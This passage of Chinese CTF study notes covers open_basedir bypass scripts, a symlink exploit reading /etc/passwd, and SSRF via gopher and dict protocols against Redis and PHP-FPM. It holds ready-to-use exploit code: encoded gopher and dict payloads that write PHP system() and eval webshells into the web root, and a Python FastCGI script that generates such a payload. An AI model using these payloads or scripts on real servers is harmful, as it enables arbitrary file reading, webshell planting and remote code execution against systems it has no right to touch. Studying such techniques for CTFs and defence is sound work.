$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
?>
```

当传入的路径存在时，返回路径。

当传入的路径不存在时，返回False。

但是如果我们完全不知道路径的情况下就和暴力猜解无异了，时间花费极高。在Windows系统下可以利用`<>`来列出所需目录下的文件，有P神的POC如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

当然由于<><是Windows特有的通配符。所以该POC只能在Windows环境下使用。Linux下只能暴力破解。

>在windows中可以使用通配符“* ”、“? ”查找文件，对于相同字符开头的单词和相同字符结尾的单词可以用“<”和“ >”通配符查找单词。
>
>1. 如果要查找： 任意单个字符 ：
>     键入 ? 例如，s?t 可查找“sat”和“set”……。
>2. 任意字符串 :
>     键入 * 例如，s*d 可查找“sad”和“started”……。
>3. 单词的开头
>     键入 < 例如，<(inter) 查找“interesting”和“intercept”……，但不查找“splintered”。
>4. 单词的结尾
>     键入 > 例如，(in)> 查找“in”和“within”……，但不查找“interesting”
>
>linux通配符
>
>

#### realpath()绕过

`realpath()`函数和`SplFileInfo::getRealPath()`作用类似。同样是可以得到绝对路径。函数定义如下:

```
realpath ( string $path ) : string
```

当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。 

所以我们可以通过这个特点，来进行目录的猜解。举个例子，我们需要猜解根目录（不在open_basedir中）下的所有文件，只用写一个捕捉php错误的函数`err_handle()`。当猜解某个存在的文件时，会因抛出错误而进入`err_handle()`，当猜解某个不存在的文件时，将不会进入`err_handle()`。

同样，对于这个函数，我们在Windows下仍然能够使用通配符<>来列目录，有P神的脚本如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

`realpath()`和`SplFileInfo::getRealPath()`的区别在于，`realpath()`只有在启用了open_basedir()限制的情况下才能使用这种思路爆目录，而`SplFileInfo::getRealPath()`可以无视是否开启open_basedir进行列目录(当然，没有开启open_basedir也没必要花这么大的功夫来列目录了)

#### imageftbbox()绕过

GD库imageftbbox/imagefttext列举目录

GD库一般是PHP必备的扩展库之一，当中的`imageftbbox()`函数也可以起到像`realpath()`一样的列目录效果。
其思想也和open_basedir类似。这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。 也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

有POC如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

这个方法报错的时候并不会把真正的路径爆出来，这也是其与realpath的最大不同之处，用这种方法只能一位一位猜解列目录

而且和上面的两种方法类似，由于都使用了Windows的通配符，所以这些POC都只能在Windows下使用，Linux下只能暴力猜解。

#### bindtextdomain()绕过

bindtextdomain是php下绑定domain到某个目录的函数。用法如下:

```
bindtextdomain ( string $domain , string $directory ) : string
```

`bindtextdomain`是php下绑定domain到某个目录的函数。具体这个domain是什么我也没具体用过，只是在一些l10n应用中可能用到的方法（相关函数textdomain、gettext、setlocale，说明：http://php.net/manual/en/function.gettext.php）

所以第一个参数随便传都行，主要出在第二个参数上，当第二个参数即目录存在时，会返回目录的路径，当目录不存在时，会返回False。故有脚本如下:

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

我们也可以通过返回值的不同来猜解、列举某个目录。

但很大的鸡肋点在，windows下默认是没有这个函数的，而在linux下不能使用通配符进行目录的猜解，所以显得很鸡肋。

当然，在万无退路的时候进行暴力猜解目录，也不失为一个还算行的方法。

### EXP

[php5全版本绕过open_basedir读文件脚本 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/other/bypass-open-basedir-readfile.html)

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

如我们欲读取`/etc/passwd`。其实原理就是创建一个链接文件`x`，用相对路径指向`a/a/a/a`，再创建一个链接文件exp指向`x/../../../etc/passwd`。其实指向的就是`a/a/a/a/../../../etc/passwd`，其实就是`./etc/passwd`。这时候删除`x`，再创建一个`x`目录，但exp还是指向`x/../../../etc/passwd`，所以就成功跨到`/etc/passwd`了。 

精华就是这四句： 

```
<?php
symlink("abc/abc/abc/abc","tmplink"); 
symlink("tmplink/../../../etc/passwd", "exploit"); 
unlink("tmplink"); 
mkdir("tmplink");
```

我们访问 http://xxx/exp ，如果服务器支持链接文件的访问，那么就能读到`/etc/passwd`。 

其中并没有任何操作触发open_basedir，但达到的效果就是绕过了open_basedir读取任意文件。错误不在php，但又不知道把错误归结到谁头上，所以php一直未管这个问题。 

## 无数字字母RCE


## PHP WebShell免杀


## SSRF和Gopher

<u>*awctf --- i_am_eeeeeshili*</u>

<u>*buuctf --- [De1CTF 2019]SSRF Me*</u>

### curl命令行工具

GET请求

```
curl http://127.0.0.1
```

POST请求

```
curl -x POST -d "a=1" http://127.
```

携带Cookie

```
curl -cookie "Cookie=xxx" http://xxx
```

上传文件

```
curl -F "file=@/etc/passwd" http://127.0.0.1
```

### SSRF中主要的协议

1. file协议

   file协议主要用于访问本地计算机中的文件，命令格式为：

   ```
   file://文件绝对路径
   ```

   

2. Gopher协议

   https://github.com/tarunkant/Gopherus

   [Gopher协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115255263)

   ```
   URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
   
   gopher的默认端口是70
   如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码
   ```

3. dict协议

   词典网络协议

   [SSRF漏洞中使用到的其他协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/命令:参数
   
   向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增加了便利
   dict协议执行命令要一条一条执行
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher



```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需要再进行一次url编码




#### dict



>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```

```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```



### SSRF打FastCGI

>`auto_prepend_file`是告诉PHP，在执行目标文件之前，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件后，包含`auto_append_file`指向的文件。

<u>*CTFhub --- web-ssrf-FastCGI*</u>

[NCTF2019\]phar matches everything（自动化脚本获取flag）_buuctf phar_Ho1aAs的博客-CSDN博客](https://blog.csdn.net/Xxy605/article/details/120161001)

[fastCGI](https://www.cnblogs.com/tssc/p/10255590.html)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写_mysteryflower的博客-CSDN博客](https://blog.csdn.net/mysteryflower/article/details/94386461)

[ fastcgi协议分析与实例_Shreck66的博客-CSDN博客](https://blog.csdn.net/shreck66/article/details/50355729)

[利用SSRF攻击内网FastCGI协议 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/263342.html)



https://blog.csdn.net/mysteryflower/article/details/94386461

Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。

#### 消息头(请求头)

和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

```c
typedef struct {
    /* Header */
    unsigned char version; // 版本
    unsigned char type; // 本次record的类型
    unsigned char requestIdB1; // 本次record对应的请求id
    unsigned char requestIdB0;
    unsigned char contentLengthB1; // body体的大小
    unsigned char contentLengthB0;
    unsigned char paddingLength; // 额外块大小
    unsigned char reserved; 

    /* Body */
    unsigned char contentData[contentLength];
    unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由8个uchar类型的变量组成，每个变量1字节。其中，requestId占两个字节，一个唯一的标志id，以避免多个请求之间的影响；contentLength占两个字节，表示body的大小。

语言端解析了fastcgi头以后，拿到contentLength，然后再在TCP流里读取大小等于contentLength的数据，这就是body体。

Body后面还有一段额外的数据（Padding），其长度由头中的paddingLength指定，起保留作用。不需要该Padding的时候，将其长度设置为0即可。

可见，一个fastcgi record结构最大支持的body大小是2^16，也就是65536字节。

type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。

也就是说，每次请求，会有多个record，他们的requestId是相同的。

借用[该文章](https://blog.csdn.net/shreck66/article/details/50355729)中的一个表格，列出最主要的几种type：




下图为php-fpm给web服务器传输的一个具体消息的消息头(8字节)内容

1. 序列0(对应version字段)的数值为01，代表php-fpm的版本信息
2. 序列1(对应type字段)的数值为03，根据上面对type值含义的解释，可以知道这个消息将标志这此次交互的结束
3. 序列2,3 00,01说明此次交互的请求ID为01
4. 序列4,5 00,08标示这在序列7之后的消息体的长度为8
5. 序列6标示填充字节为0，及本身消息体以是8的字节了
6. 序列7将消息的保留字节设为0

#### 消息体(请求体)

##### type为1

读者对照上面介绍的type值的含义可知，此类消息为交互刚开始所发的第一个消息，其消息体结构c定义如下

```c
typedef struct 
{
    unsigned char roleB1;       //web服务器所期望php-fpm扮演的角色，具体取值下面有
    unsigned char roleB0;
    unsigned char flags;        //确定php-fpm处理完一次请求之后是否关闭
    unsigned char reserved[5];  //保留字段
}FCGI_BeginRequestBody;
```

根据上述可知type值为1的消息(标识开始请求)的消息的消息体为固定大小8字节，其中各个字段的具体含义如下

- role:此字段占2个字节，用来说明我们对php-fpm发起请求时，我们想让php-fpm为我们扮演什么角色(做什么，或理解为杂么做)，其常见的3个取值如下:
- flags:字段确定是否与php-fpm建立长连接，为1长连接，为0则在每次请求处理结束之后关闭连接
- reserved:保留字段

##### type为3

type值为3表示结束消息，其消息体的c定义如下

```c
typedef struct 
{
    unsigned char appStatusB3;      //结束状态，0为正常
    unsigned char appStatusB2;
    unsigned char appStatusB1;
    unsigned char appStatusB0;
    unsigned char protocolStatus;   //协议状态
    unsigned char reserved[3];
}FCGI_EndRequestBody;
```

同样我们可以看出结束消息体也为固定8字节大小，其各字段的具体含义如下：

- appStatus:此字段共4个字节，用来表示结束状态，0为正常结束
- protocolStatus:为协议所处的状态，0为正常状态
- reserved:为保留字节

##### type为4

此值表示此消息体为传递PARAMS(环境参数)，环境参数其实就是name-value对，我们可以使用自己定义的name-value传给php-fpm或者传递php-fpm已有的name-value对，以下为我们后面实例将会使用到的php-fpm以有的name-value对如下



消息体的格式如下

```c
typedef struct {
     unsigned char nameLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char nameLengthB2;
     unsigned char nameLengthB1;
     unsigned char nameLengthB0;
     unsigned char valueLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char valueLengthB2;
     unsigned char valueLengthB1;
     unsigned char valueLengthB0;
     unsigned char nameData[(B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
     unsigned char valueData[valueLength
     ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValue;
```

以看出消息体前8个字节为固定的，其字段具体含义为

- nameLength:此字段占用4字节，用来说明name的长度
- valueLength:此字段为4个字节，用来说明value的长度

前8个字节之后紧跟的为nameLength长度的name值，接着是valueLength长度的value值

```c
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;
 
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其实是4个结构，至于用哪个结构，有如下规则：

1. key、value均小于128字节，用FCGI_NameValuePair11
2. key大于128字节，value小于128字节，用FCGI_NameValuePair41
3. key小于128字节，value大于128字节，用FCGI_NameValuePair14
4. key、value均大于128字节，用FCGI_NameValuePair44

##### type值为5,6,7

当消息为输入，输出，错误时，它的消息头之后便直接跟具体数据

#### 完整消息record


#### PHP-FPM（FastCGI进程管理器）

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

```c
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是PHP中$\_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$\_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

##### EXP

```python
import socket
import random
import argparse
import sys
from io import BytesIO
from urllib.parse import quote

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        # if not self.__connect():
        #     print('connect failure! please check your fasctcgi-server !!')
        #     return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        print(f"gopher://{self.host}:{self.port}/_"+quote(quote(request)))
        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    # parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    # parser.add_argument('host', help='Target host, such as 127.0.0.1')
    # parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    # parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    # parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    # args = parser.parse_args()

    client = FastCGIClient("127.0.0.1", 9000, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = "/var/www/html/index.php"
    content = '''<?php file_put_contents("/var/www/html/shell.php","<?php eval(\$_POST[1]);?>");?> '''
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    # print(force_text(response))
```

## redis漏洞复现

[SSRF---gopher和dict打redis_gopher协议打redis_Z3eyOnd的博客-CSDN博客](https://blog.csdn.net/unexpectedthing/article/details/121667613)


## Python沙箱逃逸

[一文看懂Python沙箱逃逸 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/203208.html)

python沙箱逃逸（pyjail），是CTF中一类题的通称：在这些题目中，我们能够交互式地用`eval`或者`exec`执行python代码。然而，执行的代码和上下文均受到一定限制，如题目用正则表达式拒绝部分字符的输入、以及令`__builtins__=None`等。在正式开始介绍pyjail题目的解法之前，让我们先复习一下python的一些特性：

- 在python中，类均继承自`object`基类；
